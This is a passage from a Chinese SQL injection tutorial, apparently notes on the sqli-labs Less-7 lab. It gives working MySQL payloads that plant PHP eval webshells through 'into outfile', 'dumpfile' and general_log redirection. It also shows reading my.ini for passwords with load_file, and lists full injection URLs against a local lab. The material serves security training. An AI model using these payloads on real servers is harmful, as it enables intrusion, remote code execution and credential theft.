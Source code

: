 此处将`version()`替换成一句话，`\<?php @eval($_post[“mima”])?>`

也即  
`Select\<?php @eval($_post[“mima”])?> into outfile “c:\\phpnow\\htdocs\\test.php”`  
直接连接一句话就可以了，其实在select 内容中不仅仅是可以上传一句话的，也可以上传很多的内容。

**第二种修改文件结尾：**

```mysql
Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16 进制文件
```

解释：通常是用`‘\r\n’`结尾，此处我们修改为自己想要的任何文件。同时可以用`FIELDS TERMINATED BY 16` 进制可以为一句话或者其他任何的代码，可自行构造。在`sqlmap` 中`os-shell` 采取的就是  
这样的方式，具体可参考`os-shell` 分析文章：[http://www.cnblogs.com/lcamry/p/5505110.html](http://www.cnblogs.com/lcamry/p/5505110.html)  
TIPS：  
（1）可能在文件路径当中要注意转义，这个要看具体的环境  
（2）上述我们提到了`load_file()`,但是当前台无法导出数据的时候，我们可以利用下面的语句：

```mysql
select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’) into outfile‘c:\\wamp\\www\\test.php’
```

可以利用该语句将服务器当中的内容导入到web 服务器下的目录，这样就可以得到数据了。上述my.ini 当中存在password 项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。

类似的还有一个`dumpfile`

```mysql
select "<?php phpinfo();?>" into dumpfile "/tmp/1.php";
outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式
```

当`secure_file_priv`为`NULL`时

```mysql
如果存在堆叠注入，当然由于是global变量，需要root权限
set global general_log=on;
set global general_log_file='C:/phpStudy/WWW/789.php';
select '<?php eval($_POST['a']) ?>';
```

**sqli-labs/Less-7**

```mysql
--使用')) or 1=1--+进行注入
http://127.0.0.1/sqli-labs/Less-7/?id=1')) or 1=1 --+
（2）利用上述提到的文件导入的方式进行演示：
http://127.0.0.1/sqli-labs/Less-7/?id=-1')) union select 1,2,3 into outfile "D:/phpstudy_pro/WWW/sqli-labs/outfile/less-7.txt"--+
（3）直接将一句话木马导入进去，再用菜刀等webshell 管理工具连接即可
http://127.0.0.1/sqli-labs/Less-7/?id=-1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "D:/phpstudy_pro/WWW/sqli-labs/outfile/less-7.php"--+
（4）这里也可以到处数据库的内容
```

## 增删改函数介绍
